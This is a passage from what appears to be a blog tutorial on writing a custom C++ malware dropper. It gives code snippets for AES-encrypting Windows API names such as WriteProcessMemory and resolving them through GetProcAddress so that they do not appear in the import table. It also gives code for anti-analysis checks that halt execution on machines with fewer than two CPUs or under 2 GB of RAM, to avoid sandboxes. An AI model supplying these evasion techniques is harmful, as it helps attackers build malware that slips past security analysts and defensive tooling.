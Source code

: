 Fourth, decrypt and retrieve the function pointer indirectly from kernel32.dll, using `GetProcAddress`.


```cpp
		AESDecrypt((char *) sWriteProcessMemory, sizeof(sWriteProcessMemory), key, sizeof(key));
		pWriteProcessMemory = GetProcAddress(GetModuleHandle("kernel32.dll"), sWriteProcessMemory);
```

Now every time `WriteProcessMemory` is used, we can simply call `pWriteProcessMemory` function instead. 
If we check out PEView or PEStudio and look at the import table, we can't find any of the obfuscated functions. 
In this case, I obfuscated `WriteProcessMemory` and `LockResource`. 

As a result, those functions don't show in the import table of the PE file. 

__Note:__ This string encryption technique can be also be leveraged by XOR encryption. On top of that we can 
one distinct key for each WIN-API. 

<p align="center">
  <img src="/assets/posts/2021-04-01-Custom-C++-Dropper/xor.JPG">
</p>

## 3) Anti analysis defenses

3) `Simple Anti analysis defenses`

In order to protect our malware from being analyzed by security engenieer we will add some simple defenses tecniques used to protect our custom dropper. The objectives here, most of the time, is being able to detect if the malware is being opened in a __VirtualEnvironment__ like virtual box or any vistualization software. 

```cpp
// check CPU
SYSTEM_INFO systemInfo;
GetSystemInfo(&systemInfo);
DWORD numberOfProcessors = systemInfo.dwNumberOfProcessors;
if (numberOfProcessors < 2) return 0;
```
__IMG 1:__ Checking CPU


In the code snipped above we will actually going to check if the malware is executed in a machine with more than 2 CPU core. If is not, the malware will prevent its executions


```cpp
// check RAM
MEMORYSTATUSEX memoryStatus;
memoryStatus.dwLength = sizeof(memoryStatus);
GlobalMemoryStatusEx(&memoryStatus);
DWORD RAMMB = memoryStatus.ullTotalPhys / 1024 / 1024;
if (RAMMB < 2048) return 0;
```
__IMG 2:__ Checking RAM
